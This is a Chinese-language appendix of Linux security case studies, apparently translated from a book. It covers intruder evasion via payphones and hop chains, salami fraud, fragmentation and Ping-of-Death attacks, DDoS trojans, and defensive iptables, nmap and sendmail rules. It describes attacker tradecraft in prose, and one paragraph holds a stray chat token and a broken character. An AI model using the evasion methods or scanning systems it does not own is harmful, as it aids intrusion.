一些 ISP 使用来电显示记录每个拨入连接的订阅者的电话号码，作为捕捉黑客和垃圾邮件发送者的辅助手段。在美国，你可以用相应的触摸音键位阻止来电显示。免费 800 号码使用自动号码识别 (`ANI`) 查看主叫方号码，无法阻止。

黑客知道这一点，因此谨慎的（也是最危险的）黑客会使用带有笔记本电脑和调制解调器的公用电话。这部公用电话将位于一个偏僻的区域，那里没有人会注意到某人带着笔记本电脑来过，可能好几个小时。该地点可能提供区域的视野，以便黑客及时看到警察并逃脱，在极不可能的电话实际上被追踪到的情况下。

她会被拨入某个允许员工或客户拨入访问的公司，该公司要么对谁被允许进入非常随意，要么已经被破解。许多最好的黑客也是电话爱好者，即使是从同一城市拨入你的系统，电话也可能通过一两个其他大陆的多个外国国家路由。这个黑客然后通过 `telnet` 进入一个被入侵的系统，再从那个系统 `telnet` 进入另一个被入侵的系统，等等。

### B.11 从顶部取走几分钱

系统中可能存在一长串已泄露的账户，而系统管理员甚至不知道它们已被入侵。这些系统可能分布在多个大洲上。目前在美国（肯定也包括其他一些国家）的法律要求对每一跳都发出单独的搜查令。已有提案试图改变这一现状。

追踪跨越国际边界的连接需要国际刑警组织或军事情报部门的介入，而其中一些国家之间的关系可能较为冷淡。通过系统管理员非正式地开展工作可能更高效，但在某个阶段你可能会遇到一个正忙于其他事务的人。（这可能正是她的系统最初被入侵的原因。）

> 除非这个破坏者的自负情绪战胜了他，并且他向太多人炫耀，否则他永远也不会被抓住。

金融界的人士知道，隐蔽的破坏者不会从账户中窃取 100,000 美元。相反，他会安排从一百万笔交易中每笔获取几分钱。在涉及利息的交易中这样做很常见，因为人们不太可能知道计算是不正确的。

> 给 Linux 系统管理员的教训是，不仅要警惕那些搞毁磁盘或耗尽带宽的明目张胆的破坏者，还要意识到那些已获得 `root` 权限且迄今未造成任何伤害的隐蔽破坏者。

虽然有些破坏者仅仅为了入侵而入侵，不会造成损害，但也存在破坏者正在积累系统以供日后进行分布式拒绝服务（DDoS）攻击或更恶劣活动的危险，这会将你的系统“指控”为攻击源头。破坏者也可能正在扫描机密数据，这些数据将被用于对你用户和组织有害的不法目的。

### B.12 非营利组织的好运耗尽

在这本书的第一版中，我们研究了一个组织的网站。该网站在接收新成员的个人信息和信用卡号时，费心使用了 `HTTPS`（包裹了 `SSL` 的 `http`），但在通过互联网接收新成员的密码时却使用了明文传输。那是两年前的事情了，我出于礼貌给他们发了一封电子邮件，通知他们这一问题。

几年后，我的寻呼机收到了一个警报，显示该组织的 `DNS` 服务器试图 `SSH` 连接到我一个客户的网络。事件发生在该组织时区的下午 4:32。（破坏者陷阱立即将他们锁定，因此我的客户并无危险。）我打电话给该组织位于纽约和华盛顿的办公室，警告他们其 `DNS` 服务器可能已被入侵。在两家办公室，我都只被转接到了自动语音信箱，且没有提及任何非工作时间的紧急电话号码。我留下了语音留言，解释了发生的事情以及我对他们的 `DNS` 服务器可能已被入侵的担忧，并留下了我的姓名、电话号码和电子邮件地址。

该组织犯了许多技术和政策错误。可吸取的教训包括：

1. 在关键服务器上运行最小化的服务。
2. 切勿在关键系统上运行 `X` 窗口系统。当你确实使用 `X` 时（通常在桌面系统上），请使用 `-nolisten tcp` 参数调用它，使其不在 `TCP` 端口 6000 上监听，或者使用 `IP` 表格阻断除受信任系统外的所有访问。使用 `SSH` 的加密 `X` 通道是远程 `X` 访问更优选的方案。
3. 使用防火墙并包含出站（Egress）过滤。像这样的服务器（即本来应该位于 `DMZ` 中的服务器）应被防火墙阻止发起任何对其工作非必需的互联网连接。换句话说，`DNS` 服务器应仅允许向上游 `DNS` 服务器发送 `DNS` 请求，并仅接收其服务对象的 `DNS` 请求。`Web` 服务器应仅允许发送 `HTTP` 和 `HTTPS` 响应（以及可能发送电子邮件与其后端数据库或类似服务器通信），并向组织的 `DNS` 服务器发起 `DNS` 请求。

这样，即使针对 `named` 的缓冲区溢出攻击成功了，服务器除了向向其发起 `DNS` 请求者发送恶意数据包及其上游 `DNS` 服务器外，什么也做不了。如果这样做了，我的客户就不会遭到攻击。

4. 通过以下操作从互联网扫描你的网络：

```
nmap -P0 -sT -O -F -sR -I -T Aggressive yournet/netbits
```

这通常会揭示问题。

5. 制定处理潜在入侵的良好程序。网站上、出版物中以及通过电话信息服务中应有一个 24 小时紧急电话号码。
6. 培训接听电话的前线人员，将所有涉及潜在安全问题的电话视为紧急情况。

第二天中午前不久，我接到了他们办公室一名女性的电话，她似乎对我的留言非常“不满”。当我再次解释发生的情况时，她说我应该去他们的网站留言，并且显然希望我只是“走开”。我说，既然他们的计算机可能已被入侵，黑客可能会在他们的人员看到之前删除我的电子邮件。（因为我怀疑她熟悉“破坏者”这个词，所以我使用了“黑客”这个词。）电话线在一阵沉默后断开了，另一端没有人接。

正当我犹豫是否被挂断电话时，她重新接听了电话，说当他们试图联系计算机运维部门时无人应答。我再次强调此事的重要性，要求他联系相关人员，并要求收到关于状态的回复电话。我再也没有收到任何后续联系。对他们 `DNS` 服务器的 `nmap` 扫描仅显示一项服务：`X`。我对该系统的 `nmap` 扫描（由于联邦地区法院的裁决，允许美国东南部的此类扫描）也显示没有部署防火墙规则。


## B.13 对顽固系统管理员坚持不懈会有回报

追踪到反复攻击其网络的系统的系统管理员通常会联系该系统的系统管理员或网站管理员，解释问题并要求修正。更常见的情况是，要么没有回应，要么他们表示不愿意处理。关于处理潜在无响应情况的技巧在第 511 页的“其他系统管理员：他们在乎吗？”中有讨论。大多数被攻击系统的管理员只是投入一条 IP 表格规则来阻止他们的数据包，或者在垃圾邮件的情况下，以 root 身份执行以下操作

```markdown
cd /etc/mail
echo "spammer@baloney.com\tDISCARD" >> access
make
```

并接受丢失的带宽。然而，坚持不懈可能会有回报。打电话给该组织，获取责任人的姓名和分机号，或其管理层的联系方式。每天给他们打几次电话，直到问题得到你满意的解决。如果问题足够严重，且你有管理层的后盾，请忽略那些肯定会随之而来的威胁要报警的话。大多数人不会报警。在那少数报警的人中，他们的投诉很可能被忽略，而如果当局真正介入，他们做的第一件事（对你来说最坏的情况）就是要求你停止。但在你的情况下，你打电话是有正当理由的。

最近，电话公司在我的账单上犯了一个错误，这件事向我彻底展示了这种做法的有效性。我尝试通过正常途径解决失败，并开始至少每天接到来自 MCI 的骚扰电话，有时一天多达四次，要求付款。我要求他们不要再给我打电话，否则我将向当局投诉骚扰电话的诉求被忽视。当我要求每位打电话来的人让我与经理通话以讨论此事时，他们要么挂断我的电话，要么让我在无限期等待中挂起。我寄给 MCI 的挂号信被忽视。

最终，我屈服并邮寄了他们要求的金额。即便如此，尽管我解释过我已邮寄付款，他们仍拒绝停止来电，直到付款在一座遥远的城市被收到，且他们拒绝让我与任何有权限的人通话

要改变这种情况或以其他方式解决此错误。不用说，我绝不会、永远不会再与 MCI 做生意。如果你要和他们合作，我祝你好运。

经验教训：

- 坚持往往能带来回报，帮助你实现目标。
- 务必建立一套升级处理流程，以应对那些对标准处理方式不满的人员，并确保所有相关人员都遵循此流程。

即使是美国国税局（IRS）也有升级处理流程。当它拒绝回应你的投诉或挂号信时，向你的国会议员（如果你是美国公民）发送一封普通信件，解释你的问题，即可激活此升级流程。你的记录会被特别标记为“正在接受国会调查”，针对你采取的任何威胁性行动都会被阻止，并且该事项将被转移到一个专门倾听你意见的部门。根据我的个人经验，我可以确信这是有效的。

- 然而，惹错人将会让你付出代价。

## B.14 .Net 携带 Nimda 病毒

2002 年 6 月，据报道，微软面向开发人员的 Visual Studio .Net 产品的韩语版本中包含了 Nimda 病毒。微软向我们保证不需要担心，因为 Nimda 需要 IE5.5，而 Visual Studio .Net 需要 IE6.0 才会感染。我是说，用于使用。这样的事情怎么会发生？微软聘请了一家公司将此产品翻译成韩语，而该公司允许 Nimda 进入其网络。当微软对拟议中的 CD-ROM 进行病毒扫描时，它只扫描了 CD-ROM 上它预期看到的文件，而不是 CD-ROM 上实际存在的所有文件。

经验教训：

- 安全环（Rings of Security）对于良好的安全性来说是必不可少的，因为没有任何单个环是 100% 有效的。本案例研究中旨在扫描病毒的那个环显然是不完整的。此处列出的其他经验教训是有助于防止此问题的一些环。
- 如果远程站点的数据将被重新引入你的网络或以其他方式分发，它们应该至少拥有与你主网络相同的安全级别。这些站点包括供应商、顾问以及员工的主机系统，如果这些系统上的数据是被信任的话。
- 分发软件或其他关键数据的组织需要非常小心，确保其没有病毒和木马。如果产品打算在 Windows 上运行，则所有文件都应进行病毒扫描。
- 应有一个“构建列表”，列出应随分发版本发出的文件，以及一个软件过程，只允许分发这些文件。20 年前，我们在 Silicon Graphics 和其他地方这样做，以确保不需要的文件不会出现在分发版本中。这是许多管理良好的软件公司的常见做法。
- 应有一个“无菌构建过程”。拟议的源代码和数据文件应专门复制到干净的系统上进行构建。这个干净的系统应该从头开始构建，并应与任何网络完全隔离，数据通过 CD-ROM、磁带或类似的非网络方法传输到该系统，你可以选择仅复制所需的文件。制作几个母版 CD-ROM，并在发货前将成品与母版进行逐字节比较。
- 非常仔细地扫描拟议产品和成品中的病毒或其他缺陷。
- 大型组织需要对缺陷（如病毒）进行多重检查。任何分发版本都应经过检查。然后，应由不同的人员使用独立开发的过程和独立软件进行重新检查。在病毒扫描的情况下，每一步都应使用不同供应商的产品。
- 让你的安全程序接受审计，特别是如果你的机构不仅仅是一个小团队。这些问题对于经验丰富的安全顾问来说显而易见，而且审计报告很难被忽视。
- 数据和它与你的联系（包括你组织的声誉）越重要，保护它的步骤就应该越细致、越彻底。微软要求每个人信任其信用卡和银行账户数据以及公司将声誉托付给 .Net。在听到此事件后，你还会信任吗？

## 最近的安全入侵

在本附录的这一部分中，调查了最近成功的安全入侵和 DoS（拒绝服务）攻击，并规划了防御措施。涵盖的主题包括：

- 第 567 页的“碎片化攻击”
- 第 568 页的“ICMP 的 IP 伪装失败”
- 第 569 页的“死亡之 Ping 击沉荷兰航运公司”
- 第 570 页的“船长，我们正在被扫描！（隐蔽扫描）”
- 第 570 页的“电缆调制解调器：黑客的梦想”
- 第 571 页的“使用 Sendmail 阻止电子邮件攻击”
- 第 572 页的“Sendmail 账号猜测”
- 第 572 页的“神秘的 Ingreslock”
- 第 573 页的“你正在被跟踪”
- 第 575 页的“分布式拒绝服务（协同）攻击”
- 第 578 页的“隐蔽木马”
- 第 581 页的“通过 TCP 端口 98 的 Linuxconf”
- 第 583 页的“恶意 HTML 标签和脚本”
- 第 584 页的“syslog() 的格式问题”

## B.15 碎片化攻击


TCP 和 UDP 更正式地被称为 TCP/IP 和 UDP/IP 的原因是，TCP 和 UDP 协议位于“上层”的 IP 协议之上。IP 层关心的是诸如将大于硬件包大小（对于以太网约为 1500 字节，对于 PPP 则有所不同）的数据包拆分，然后在接收系统上将其重新组装为单个 TCP 或 UDP 数据包等琐碎事项。包含端口号和 IP 地址的 TCP 或 UDP 头部对于 IP 层来说只是数据。因此，当大数据包被拆分传输时，这个非常重要的头部只存在于第一个 IP 数据包中。

那么，当应用于 TCP 或 UDP 消息的后续数据包时，所有精心构建的防火墙规则通常会发生什么变化？回想一下，防火墙无法知道这些后续 IP 数据包涉及哪个端口号或 IP 地址。那么，因为丢弃它们会阻止所有大包，所以后续数据包被不加阻拦地放行。（可以使用 `ipchains` 的 `-f` 标志来指定仅适用于后续部分数据包的规则，以便可以添加一条丢弃它们的规则。）这允许进行多种攻击。通常，由于接收系统内核缓冲了所有这些数据包并因攻击者故意生成了无法正确重组的数据包而导致缓冲区空间耗尽，这些攻击是 DoS 攻击。

然而，也存在允许攻击者绕过防火墙安全，并向防火墙后的“受保护”系统的端口发送攻击者选择的任何数据的攻击。这些通常涉及创建如此小的第一个数据包，以至于端口号和 IP 地址位于后续数据包中。

在假设完美防火墙存在但实际不存在的典型配置中，如果防火墙后的系统在防火墙被突破的情况下易受攻击，这可能是灾难性的。（有关如何为此做准备的建议，请参见第 78 页的“公司内部防火墙以遏制火灾”。）最好的解决方案是在防火墙系统上构建 Linux 内核时定义

```
CONFIG_IP_ALWAYS_DEFRAG
```

常量。然后，在系统启动时，通过给出以下 bash shell 命令来激活去碎片化

```bash
echo 1 > /proc/sys/net/ipv4/ip_always_defrag
```

或者 tesh shell 命令

```bash
echo 1 >! /proc/sys/net/ipv4/ip_always_defrag
```

这将导致防火墙系统重新组装发送者打算传输的所有数据包。然后，重新组装的数据包将正确受到防火墙规则的约束。这还有一个很大的优势，即损坏的碎片*不会*被传递到防火墙内部可能易受攻击的系统。虽然 IP Chains 具有阻止所有后续碎片的能力，但这既会阻止合法流量，又会向易受这些攻击的“内部”系统强加损坏的数据包。

## B.16 IP 伪装对 ICMP 失效


IP 伪装（NAT）在安全方面有几个主要优势：


它防止了许多来自互联网针对内部网络的攻击，因为它防止互联网上的系统寻址内部系统。（黑客仍然可以攻击映射到内部系统的防火墙端口，希望意外地击中具有正确伪造源地址和端口的端口，但到目前为止这种情况很少见。）

它使攻击者难以映射出某人的内部网络，因为他“从这里到不了那里”。

它允许许多内部系统在没有多个真实 IP 地址的情况下访问互联网。

相反，`IP Tables` 中存在一个严重漏洞，允许黑客到达那里。这个漏洞阻止了来自内部系统的任何 `ICMP` 消息进行伪装。相反，`ICMP` 错误响应的有效载荷将是内部系统的源地址。这允许黑客映射出你的内部网络。

这个严重问题，连同其他设计缺陷（例如缺乏 `IP Chains` 拥有的简单 `-l` 日志记录标志），使我认为 `IP Tables` 仍处于测试阶段，并且并不是明显优于 `IP Chains`。这个漏洞存在于 `1.2.6a` 之前的所有 `IP Tables` 版本中，影响 `2.4.4` 到至少 `2.4.19` 之间的内核，并影响路由到内部系统的 `DNAT`（可能还有其他场景）。

# B.16 ICMP 分片重组漏洞

这影响了大多数或所有运行 2002 年及之前发布的 2.4 内核的主要 Linux 发行版，包括 Red Hat 7.3、SuSE 8.0、Slackware 8.0 和 Mandrake 8.2。请从你发行版的网站或以下地址获取补丁：

`www.netfilter.org/security/2002-04-02-icmp-dnat.html`

一种规避方法是设置一条 `IP` 表（`IP Tables`）规则，以阻止所有 `ICMP` 数据包被发送到互联网。以下规则可以实现这一目的。

```
iptables -A OUTPUT -m state -p icmp --state INVALID -j DROP
```

我坚持认为，大多数防火墙本来就应该阻止所有 `ICMP` 数据包被发送到互联网（除了受信任系统进行 `ping` 和 `traceroute` 命令的情况）。虽然许多安全“专家”会告诉你，阻止 `ICMP` 数据包会导致分片请求失败并引发可怕的事情，但基于我为许多客户多年来一直阻止这些数据包的事实，这种问题并不会发生。

# B.17 “死亡之 Ping”击沉荷兰航运公司

**危险等级** ☠

“死亡之 Ping”是一个在 1996 年末发现的漏洞，其中生成了一个无效数据包并发送出去。它是无效的，因为其长度超过了允许的最大数据包长度。尽管所有代码都应该仔细检查“越界”条件，但这个问题存在于许多监听网络的设备中，从操作系统到打印机都有。

这个问题最初是偶然暴露出来的，因为大多数版本的 Windows 上的 `ping` 程序存在一个 bug，即错误地计算了请求数据包的大小。这使得用户能够请求一个合法允许范围之外的更大数据包。

在我担任顾问的一家公司中，戴夫·巴克（Dave Barker）和我使用一个测试系统来查看我们的 UNIX 系统是否真的容易受到“死亡之 Ping”的影响。他们当时完全不知道发生了什么。当我们随后跨过大西洋打电话给他们，解释我们是通过 `telnet` 登录到他们的系统的，结果连接丢失了，他们说：“呃，它只是崩溃了。我们无法从日志中确定崩溃的原因。”我不认为他们最终弄清楚这一点。后来我们确实建议他们获取数字设备公司（Digital Equipment）针对“死亡之 Ping”的补丁，我们在第二天肯定做了这件事。

令我们惊讶的是，这个非法的大数据包穿越了 6000 英里、横跨多个国家的众多路由器，而没有任何处理该数据包的系统检测到它无效并丢弃它。当我对我们的 Linux 机器之一尝试“死亡之 Ping”时，它没有崩溃。它只是稍微变慢了一点。反对 Linux 的一个论点是它“缺乏支持”。然而，防止“死亡之 Ping”使 Linux 崩溃的补丁在问题报告后惊人的四小时内就在网上可用了！其他人，无论是 Sun、Digital、Microsoft，还是任何“受支持的”封闭源代码平台，都没有这么快地提供修复方案。

截至 `2.0.28` 内核，Linux 对“死亡之 Ping”具有免疫能力。

# B.18 舰长，我们被扫描了！（隐蔽扫描）


就在你开始赢得老鼠赛跑时，他们想出了更聪明的老鼠。隐蔽扫描器就是这样一个更聪明的老鼠的例子。“高级”入侵检测系统（IDS），如 Deception Tool Kit 和 Adaptive TCP Wrappers，通过普通的 TCP 打开（针对 TCP 服务）监听特定端口。

这种 TCP 打开依赖于其三次握手序列正确完成。也就是说，两个系统之间交换了三个数据包。在服务器端（不发起连接的系统），第一个数据包中存在的信息被缓冲，直到发起方收到第三个数据包。

在*半开*攻击中，那个第三个数据包永远不会到来。尽管所有现代 Linux 内核都免疫于这种导致拒绝服务（DoS）的攻击，但通常它们允许这种隐蔽扫描不被检测到。

然而，可以使用 `IP` 链（`IP Chains`）来阻止这些攻击，因为 `IP Chains` 是在数据包层面操作的。无论是否有后续数据包来完成三次 TCP 打开，它都会阻止第一个数据包。

# B.19 电缆调制解调器：黑客的梦想


电缆调制解调器连接的操作类似于局域网，一个恶意用户可以嗅探许多其他用户的数据。大多数用户并不意识到这一点，并且正在将密码、信用卡号码以及大量其他机密数据以“明文”形式传输。这意味着应假设**所有**你的出站和入站数据包都在被嗅探，包括你的 `FTP` 和 `telnet` 会话密码、电子邮件、`HTTP` 流量以及 `rcp` 和 `rsh` 请求。（由于其他安全弱点，我不建议在任何情况下使用后两者。）

唯一安全的解决方案是加密所有网络流量。这意味着将你的网络购物限制在提供 `HTTPS` 的商家处，并使用 `ssh` 替代 `telnet`。

（这些建议本身就是好主意。）`ssh` 软件包确实提供了一种有用的方式，将任何 `TCP`（但不是 `UDP`）通信封装到或来自特定服务以进行加密。另一端必须支持 `ssh` 才能使其工作。你的 ISP 可能不愿意为诸如邮件（25 端口上的 `SMTP`）这样的服务这样做的麻烦。

# B.20 使用 Sendmail 阻止电子邮件攻击


下面这个示例是由 `www.sendmail.org` 在 `ILOVEYOU` 蠕虫爆发当天创建的，它会导致 `sendmail` 拒绝可能包含 `ILOVEYOU` �<|start|>虫的电子邮件。该蠕虫也在第 534 页的“桌面策略”中讨论过。请注意，这个示例非常具体，甚至无法检测到在蠕虫出现后两天内观察到的具有不同主题的变化变种。

> 该作者尚未看到 `sendmail` 表现出罗斯·哈维（Ross Harvey）的 `nroff` 宏所具有的灵活性，后者完美地玩了一场交互式井字游戏。认真地说，只要付出足够的努力，`sendmail` 可以被“打造”成几乎做任何事。

当此示例放在 `sendmail.mc` 文件中，或直接放入 `sendmail.cf` 文件中时，它应该能正常工作。如果使用前者，则需要调用 `m4` 宏处理器将 `sendmail.mc` 处理为 `sendmail.cf`。请注意，`<tab>` 代表制表符，且此处必须有一个制表符字符，否则此代码将不工作。

```text
HSubject: <tab>$>Check_Subject
D{MPat} ILOVEYOU
D{Mmsg}This message may contain the LoveLetter virus.

Scheck_Subject
R${MPat} $*<tab>$#error $: 501 ${Mmsg}
RRe: ${MPat} $*<tab>$#error $: 501 ${Mmsg}
```

这段代码看起来比实际更简单。如果看到 `Subject:` 头，则调用 `Check_Subject` 规则。这检查主题是否为 `ILOVEYOU` 或 `Re: ILOVEYOU`。后者检测到对包含蠕虫的电子邮件的回复。显然，即使攻击不会麻烦 Linux 最终用户，这种技术也可以用于通过组织的基于 `sendmail` 的邮件服务器传递的类似蠕虫和病毒。

# B.21 Sendmail 账户猜测


垃圾邮件发送者的一种常见技术是找到所有在 `TCP` 端口 `25` 上监听 `sendmail` 的系统，并尝试猜测用户的电子邮件地址，然后继续向他们发送垃圾邮件。他们会使用常见的名字、常见的姓氏，以及诸如 `sales`、`devel` 和 `development`、`president` 等常见通用名称。如果你允许这样做，最有效的方法是使用 `sendmail` 的 `VRFY` 命令来询问每个指定名称是否有效。当然应该关闭 `VRFY`，这一点在第 127 页的“Sendmail 安全选项”中进行了讨论。

如果做不到这一点，大多数垃圾邮件发送者只会向生成的猜测账户列表发送邮件。由于可以为单条消息指定长长的接收者列表，这对垃圾邮件发送者来说也几乎同样高效。


解决方案是限制可指定的最大接收者数量。为了产生进一步的效果，修改 `sendmail`，使得当提供无效名称时，使用 `sleep()` 系统调用“睡眠”若干秒。这将使他变慢，从而使用更少你的数据包和计算资源。如果许多站点都这样做，垃圾邮件发送的效率就会降低。限制最大接收者数量在第 103 页的“强化 `sendmail` 以抵抗 DoS 攻击”中进行了讨论。减少成功“命中”的另一个解决方案是不使用常见的电子邮件地址。不要使用 `jack` 和 `jane`，而是使用 `jmeyers` 和 `jaubrin`。

# B.22 神秘的 Ingreslock


`ingreslock` 锁定服务用于锁定 Ingres 数据库的部分。它同时列在 `TCP` 和 `UDP` 的 `1524` 端口上。因此，许多系统管理员错误地允许此服务。对于大多数不使用该服务站点而言，这是一个错误。

一种流行的黑客木马默认使用 `TCP` 协议监听此端口。应该在防火墙上阻止它，并在内部端口扫描期间进行检查。如果一个进程在监听，而你并没有设置 Ingres（或者即使你设置了），那么你就有大麻烦了。

## B.23 你正在被追踪


三十年前，当大型机（`mainframe`）主宰市场时，制造商通常会在计算机硬件中包含一个序列号。这使得定制软件能够检查它是否仅在拥有授权的那台计算机上运行。随着大规模生产的微处理器和密封包装软件的出现，这种做法变得成本过高。当然，软件公司已经因非法复制的软件遭受了巨大的利润损失。这种趋势似乎正在逆转。目前尚不清楚这是一个趋势还是一种“昙花一现”。这也引发了一些有趣的法律问题。

### B.23.1 奔腾 III 的序列号


`Pentium III` 处理器拥有一个可由任何在其上运行的代码读取的序列号。英特尔（`Intel`）表示，其意图是使电子商务网站能够确认下订单的人与打开账户的人处于同一系统，以减少欺诈行为。当然，它也可以用于减少盗版软件。由于这被视为侵犯人们的隐私权，因此引发了相当大的愤怒风暴。英特尔提供了一种“禁用”此功能的方法。

忠实的反对者提供了解除该禁用的方法，以便代码仍然可以读取序列号。当有人指出当今大多数计算机上都有的每个网络接口卡（以太网卡）都有一个唯一的 `MAC` 地址时，这场争议似乎平息了。如果英特尔将其解释为追踪被盗计算机的一种方式，它可能会被接受。

### B.23.2 微软的 GUID 允许监视你


当用户注册其微软软件时，密封包装内包含一个唯一的注册号，他们在加载软件时必须将其输入系统。这是一个序列号及其校验和。校验使得他人更难伪造假的序列号。这是软件行业的常见做法，也是一种廉价的方法来对软件进行序列化，以降低被盗的可能性。如果没有有效的注册号，其他人无法使用该软件。

微软更进一步。`Word` 和 `Excel` 生成的每个文档中都有一个隐藏的东西，微软称之为全局唯一标识符（`GUID`）。此 `GUID` 由注册号和网卡（以太网卡）的唯一 `MAC` 地址组成。

> 从技术上讲，`GUID` 使用的是软件驱动程序报告的 `MAC` 地址。在撰写匿名文章揭露老板时，骗过驱动程序使其显示竞争对手系统的 `MAC` 地址并不难。

尽管 `MAC` 地址在局域网（`LAN`）上广播，作为将系统的 `IP` 地址与实际系统关联的一种方式，但 `MAC` 地址通常不会超出你的局域网。局域网外的某人唯一看到你的 `MAC` 地址的方法是，计算机上（或局域网内另一台计算机上）运行的程序读取它并将其包含在消息中。就我所知，`Samba` 是 Linux 上唯一的标准程序，它会将此 `MAC` 地址传输到以太网段之外。

然而，微软的 `Word` 和 `Excel` 程序将 `GUID` 放入*每个*创建的文档中。这使得每个此类文档都可以追溯到编写它的机器，从而追溯到编写它的人。这是侵犯隐私吗？很多人认为是。它的危害有多大？

假设你办公室的 `win95` 系统上写了一份 `Word` 文档，揭露你所在公司的非法活动。你希望保持匿名，因此没有包含你的名字。你将文档存储在软盘上，并匿名邮寄给地区检察官（政府检察官）。

一个月后，你被以虚假理由解雇。（如果谈谈深夜从黑色大车里飞出的子弹，会有更多戏剧性，但这种情况只发生在电影中。）发生了什么？因为刑事被告有权查看所有对其不利的证据，公司得以检查软盘并读取 `GUID`。然后，他们检查了所有计算机，直到找到匹配项。

这是一种现实的可能性吗？是的。它伤害过任何人吗？`Melissa` 病毒 `Word` 文档中的 `GUID` 将其与其作者 `David Smith` 联系起来。虽然 `GUID` 没有用于抓住他，但它是佐证。

微软提供了一个补丁，以防止 `GUID` 被放入文档中。

## B.24 分布式拒绝服务（协同）攻击


`Tribe Flood Network` (`TFN`)、`TFN2000` 和 `Stacheldraht`（德语意为“铁丝网”）是三个最著名的分布式拒绝服务攻击，在本书和大多数文献中缩写为 `DDoS`。其他一些包括 `trin00`、`shaft` 和 `mstream`。

> `Tribe Flood Network` 是由一个自称 `Mixter` 的黑客（`cracker`）创建和发布的。尽管它造成了数百万美元的知名伦理公司的业务损失，德国法院仅判处 `Mixter` 六个月的*缓刑*和两年的假释。

有两种类型的“标准”拒绝服务（`DoS`）攻击。在第一种中，攻击者利用被攻击系统中的某个漏洞，消耗稀缺资源。通常这是通过原始接口违反通信协议来实现的。

另一个例子是攻击者反复打开被攻击系统上的端口，耗尽诸如 `fork` 的 `sendmail` 守护进程等资源。在 Linux 中，这些依赖被攻击系统软件中漏洞的攻击会迅速得到修复，通常只需几小时。

第二种类型的攻击是攻击者简单地用垃圾数据包淹没系统。通常，攻击者会使用一种消息类型，这将导致被攻击系统发送一个数据包作为响应，由于以下规则（向苏斯博士致歉），被攻击系统使用的带宽会增加两倍。

> 向一个没有进程响应的端口发送数据包，导致系统响应说没有守护进程，然后让它去死。

当然，攻击者会伪造源地址，使回复发送到另一个系统，甚至可能是被攻击的系统。这将导致“真实”系统（对应于伪造的源地址）向受害者发送一个“`ICMP` 主机/网络不可到达数据包”。因此，流量将增加三倍。

对这种第二类攻击的回应是尝试联系系统管理员（假设她是无辜的，并且不知道她的系统已被入侵）。入侵可能并不涉及有人破坏她的系统安全。只需要一个未经授权的普通用户编译从黑客网站下载的一些 `C` 代码，这就是“脚本小子天堂”。

如果无法通过攻击系统的系统管理员（`SysAdmin`）解决问题，解决方案是联系该系统的 `ISP` 或上游提供商，让该系统被“切断”。如果失败，请联系你的 `ISP` 或上游提供商，让他们的防火墙或路由器阻止来自该系统的数据。

在此期间，在你的防火墙上阻止该系统。即使你只有一个 Linux 盒子，`IP Chains` 也为你提供了一个防火墙，并且应该添加一条规则来阻止该站点，丢弃其数据包。

> 通过“丢弃数据包”，是指操作是忽略它们，而不是发送回复。发送回复会使所需的带宽翻倍。通过在防火墙（即使是单系统商店中的 `IP Chains`）处阻止它，你的开销将减少到可能的最小值。

当然，这是一场“带宽之战”。如果攻击者有 `T1`，而你在使用拨号 `PPP` 连接，那么在攻击在上游停止之前，你会输。同样，如果你有 `T1`，而他们拥有 `T3`，你也会输。如果你有 `T3` 呢？好吧，是 `DDoS` 的时候了。黑不会通过一个系统攻击你，一个黑客甚至一个黑客网络会入侵数十甚至数百个系统。这些系统将分散在全球数十或数百个网络中。

你可以想象，追踪这些系统中的每一个并停止它们的攻击可能需要数小时或数天。很可能他们正在使用伪造的源地址，甚至可能随时间变化。因此，追踪每一个可能需要通过观察哪个系统正在向你发送数据包来追踪每一跳，同时忽略合法流量。你需要对数十或数百个数据流执行此操作。

`DDoS` 攻击非常难以停止，而且非常有效。许多精英黑客和自认为黑客的人认为，对于无法真正破解安全的人来说，这是无能者的解决方案。当然，如果目标是让一个网站停业一段时间，`DDoS` 攻击极其有效。`DDoS` 攻击的美妙之处在于，被攻击系统不需要做任何错误的事。它可以完全安全并做所有正确的事。

只需一个不完美的系统管理员，另一个木马就会被植入一个可能从中发起攻击的系统。运行非 Linux 操作系统的有线电视网络中的 `PC` 是首要目标。拥有数百个系统和高带宽互联网连接的大学网络，也是植入 `DDoS` 木马的热门目标。

这些 `DDoS` 特洛伊木马有时被称为“僵尸”（`zombies`），因为它们可以拖垮一个系统，但自身并没有独立意识。相反，它们听从其主人的指令，而那个控制这些僵尸的单一程序就被称为“主人”（`master`）。有时，“代理”（`agent`）一词也被用来代替“主人”。


这些特洛伊木马等待来自其主人的指令，以确定要攻击的系统 IP 地址以及使用何种类型的攻击数据包。特洛伊木马可能很难被检测。通常，特洛伊木马会监听一个高编号的 UDP 端口，有时也会使用 TCP 端口。由于端口号大于 1023，它们可以以普通用户身份运行，而无需 root 权限。由于高编号端口也常用于正常网络连接（如 sendmail、telnet、FTP 或 ssh）的客户端一侧，因此它们容易在粗略检查中被忽视。Tribe Flood Network（TFN）和 Stacheldraht（带刺的铁丝网）就是以此种方式工作的。

`ports` 程序将检测运行该系统时存在的这些端口。它通过指示是否有进程正在监听流行的黑客特洛伊木马所使用的默认端口号来实现这一点。此外，它创新性地检测是否有高编号端口处于只有服务器才会处于的“监听”（listen）状态。

除非你的安装环境中有自定义服务器在高编号端口上监听，否则任何此类端口都极有可能是特洛伊木马。与 TCP 不同，UDP 本身没有状态，但大多数站点并不使用许多 UDP 服务。因此，高编号端口上的任何 UDP 进程都可能可疑，`ports` 程序将检测这些端口；关于此的讨论见第 80 页的“关闭不需要的服务”（Turn Off Unneeded Services），其源代码在光盘中。

TFN2000 非常出色，因为它不监听任何 UDP 或 TCP 端口。因此，针对它的端口扫描（即使通过 `ports` 程序）也无法检测到它。由于检测它的努力通常涉及寻找开放的 UDP 和 TCP 端口，它将逃避大多数检测。即使是那些能够扫描网络上所有 IP 地址以查找是否有任何高编号端口开放的强大工具，也无法找到 TFN2000。Løpht 的 AntiSniff 应该能够通过检测其宿主系统正在以混杂模式（Promiscuous mode）运行以太网卡来检测到它。

TFN2000 通过将网络接口置于混杂模式并监听一个原始端口（既非 TCP 也非 UDP）来工作。它监听包含待攻击机器 IP 地址及应使用的攻击形式的 ICMP 回显应答消息。它甚至加密了此消息。

由于 ICMP 回显应答消息也是 `ping` 程序发送的数据包的响应，除最严格的防火墙外，所有防火墙都会允许 TFN2000 的“攻击”数据包进入。当然，源地址是被伪造的，因此在安装了 TFN2000 特洛伊木马后，通常不可能追踪到黑客。

